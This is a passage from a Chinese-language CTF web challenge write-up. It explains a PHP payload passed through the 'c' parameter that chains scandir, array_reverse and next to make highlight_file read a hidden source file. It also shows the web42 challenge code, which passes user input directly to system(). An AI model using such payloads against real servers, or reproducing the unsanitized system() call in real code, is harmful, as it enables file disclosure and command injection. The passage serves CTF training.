 可以使用我们之前的姿势来读取

```cobol
?c=highlight_file(next(array_reverse((scandir(dirname((__FILE__)))))));
```

这里补充一下知识点

```scss
__FILE__：当前文件的目录
 
print_r 数组的输出
 
print_r(dirname(__FILE__));
 
可以打印出当前文件的父级目录
 
 
print_r(scandir(dirname(__FILE__)));
 
把父级目录中的文件 通过数组来打印出来
 
array_reverse()
 
倒叙输出
 
next()
指向当前指针的下一位
 
end()
指向数组最后一位
 
reset()
指向数组第一个
 
prev()
指针往回走一位
 
each()
返回当前指针的值 并且指针向前走一位
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/4bb70599efe3c7cd7925d7afc3755ea6.png" alt="" style="max-height:265px; box-sizing:content-box;" />


## web41

这道题就是使用师傅的脚本来跑就可以了

## web42 重定向

```php
 
 
if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}else{
    highlight_file(__FILE__);
}
```
